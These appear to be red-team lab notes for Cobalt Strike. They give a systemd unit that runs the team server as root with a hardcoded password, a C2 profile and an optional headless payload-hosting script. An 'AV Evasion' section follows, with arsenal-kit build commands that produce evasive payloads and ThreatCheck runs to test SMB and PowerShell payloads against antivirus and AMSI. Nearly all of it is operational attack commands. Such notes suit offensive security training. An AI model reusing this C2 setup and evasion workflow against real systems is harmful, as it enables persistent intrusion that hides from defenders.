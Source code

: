 ```
sudo vim /etc/systemd/system/teamserver.service
```

```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
#ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'

[Install]
WantedBy=multi-user.target
```

```
sudo systemctl daemon-reload;sudo systemctl enable teamserver.service;sudo systemctl start teamserver.service;sudo systemctl status teamserver.service
```



# AV Evasion

WSL
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
```

```shell
./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

```shell
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
```

```bash
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

Open script manager in CS and load

/mnt/c/Tools/cobaltstrike/artifacts/pipe/artifact.cna

/mnt/c/Tools/cobaltstrike/resources/resources.cna

Generate All Payloads and test with

```Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
```

``` Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI
```
